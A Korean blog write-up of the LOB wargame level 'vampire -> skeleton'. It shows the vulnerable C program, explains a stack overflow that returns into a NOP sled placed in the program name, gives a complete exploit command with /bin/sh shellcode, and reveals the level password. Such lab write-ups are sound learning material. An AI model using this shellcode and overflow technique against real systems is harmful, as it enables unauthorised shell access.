 ```yaml
---
date: '2022-10-29'
before : '2022-10-28'
after : '2022-10-30'
title: 'FTZ LOB LEVEL 10'
categories: ['C-SEC', 'KOR', 'PWN']
summary: ''
thumbnail: './Algorithm.png'
---
```



### 0. 들어가기 전에

LOB 레벨 11부터는 꽤 어려운(리버스 쉘 응용 등) 문제들이 나오는걸로 알고 있다. 혼자 열심히 해보고 안되면 빠르게 다른 분들의 포스트를 참고하려고 한다.


pwn을 완전 주력으로 삼을지는 아직 고민 중이다... 웹해킹도 하고있고 네트워크도 하고있으니 (암호학은 내년에 학교에서 정보보안 고급 암호학 한 번 들어보련다)


일단 다 해보고 맞는쪽으로 깊게 더 공부해보려고 한다. 아마 웹이나 네트워크가 되지 않을까?

### 1. Level 10 : Vampire -> Skeleton

코드를 확인해보자.

```

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter! 모든 argc를 초기화한다. 그럼 그냥 파일 이름에 담으면 될 것 같다.
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
}

```

여기서 확인할 수 있는건, 우리의 환경변수가 모두 초기화된다는 점이다. 잠깐 다시 한 번 코드의 실행 흐름을 짚어보자. 


1. 함수 프롤로그 실행
2. 함수 동작 실행 
- 우리에게 buffer 값을 입력받음
- 우리는 이를 이용해서 오버플로우로 ret값을 변환시킴
- 기타 다른 동작 실행
3. 이번에 새로 추가된 ultra hunter가 argv (버퍼 포함) 값들을 전부 초기화시킴.
4. 변조된 ret값의 주소로 함수가 회귀함



일단 나는 argv[0]까지 (파일 이름) 초기화된다는 점에 조금 의혹이 간다. argv[0]는 초기화되지 않는게 보통이니까, 일단 argv[0], 즉 파일 이름에 NOP SLED를 걸도록 하자.


그렇다면 할 일은 나왔다. ret의 값을 argv[0]으로 향하게 하고, argv[0]에 NOP SLED를 이용하여 쉘 코드를 넣으면 될 것 같다.


대충 확인해본 NOP SLED 중간값의 주소는 다음과 같았다.
```
0xbffffb28
```

그럼 이제 
```
./`python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"` `python -c 'print "A"*44 + "\x28\xfb\xff\xbf"'`
```

비밀번호 : shellcoder

 ---
## Source

- 해커스쿨 FTZ
- Me!
